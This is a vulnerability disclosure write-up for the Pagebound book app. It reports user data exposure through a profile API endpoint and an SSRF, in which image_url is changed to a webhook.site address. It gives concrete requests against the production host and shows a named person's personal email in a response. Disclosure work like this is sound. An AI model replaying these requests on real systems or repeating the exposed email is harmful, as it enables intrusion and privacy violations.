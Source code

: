 ```yaml
---
title: pagebound - vulnerability disclosure
date: 2025-07-14
tags:
  - pagebound
draft: true
---
```

## User Email Enumeration

**Description:** There are different places throughout the application where the user's Google-connected first and last name, email address, and follower counts can be seen in server responses.

**Note:** This is not the only endpoint affected by this.

1. While using a web proxy, such as Burp Suite, navigate to an arbitrary user's profile.
![](images/CleanShot%202025-07-14%20at%2020.39.33@2x.png)
2. Observe that their personal information can be seen in the response.

**HTTP Request:**
```http
GET /api/v1/users/jenniferPagebound HTTP/2
Host: prod-pagebound-api.onrender.com
[TRUNCATED]
```

**HTTP Response:**
```http
HTTP/2 200 OK
Date: Tue, 15 Jul 2025 00:39:21 GMT
[TRUNCATED]

{"id":2,"uuid":"6d6fbbe1-5821-4cc6-a12c-2e0eb9618025","first_name":"Jennifer","last_name":"Dobak","username":"jenniferPagebound","email":"jennifersdobak@gmail.com","image_url":"/assets/angel.png","bio":"co-founder of Pagebound 💜","onboarding_completed":true,"user_overlap_percent":null,"num_followers":16032,"num_following":155,"points":6033,"is_following":false,"is_top_contributor":true
[TRUNCATED]
```

---
## Server-Side Request Forgery & Function Bypass
**Description:** This isn't that bad if it's intended functionality and as long as there are protections in place. Since a custom profile picture wasn't an option though, I figured I'd mention it.

1. Navigate to the currently authenticated user's profile page.
![](images/CleanShot%202025-07-14%20at%2020.26.14@2x.png)
2. While using a web proxy, such as Burp Suite, click "Update".
![](images/CleanShot%202025-07-14%20at%2020.27.54@2x.png)
3. Modify the "image_url" parameter of the request to point to a URL that supports logging or webhooks, such as webhook[.]site. Observe the successful response.

**HTTP Request:**
```http
POST /api/v1/users/update_profile HTTP/2
Host: prod-pagebound-api.onrender.com
[TRUNCATED]

{"user":{"username":"alp1n3","bio":"fantasy, sci-fi, suspense | 🔮","image_url":"/assets/dragon.png"},"showcased_badges":[28761]}
```

**Modified HTTP Request:**
```http
POST /api/v1/users/update_profile HTTP/2
Host: prod-pagebound-api.onrender.com
[TRUNCATED]

{"user":{"username":"alp1n3","bio":"fantasy, sci-fi, suspense | 🔮","image_url":"https://webhook.site/2b70ad00-88d4-4760-86b4-a1f1be830512"},"showcased_badges":[28761]}
```

**Response:**
```http
HTTP/2 200 OK
Date: Tue, 15 Jul 2025 00:20:53 GMT
[TRUNCATED]
```

4. Refresh the user's profile page to force the image to be requested. 
5. Navigate to the logs of the web hook and observe that a request was sent by the server.
![](images/CleanShot%202025-07-14%20at%2020.33.01@2x.png)

6. This method can be used to set a custom profile picture as well, which isn't currently possible in the application's user interface.
![](images/CleanShot%202025-07-14%20at%2020.35.43@2x.png)

---

Shoutout to the Pagebound team for the rapid response. They had it fixed fast!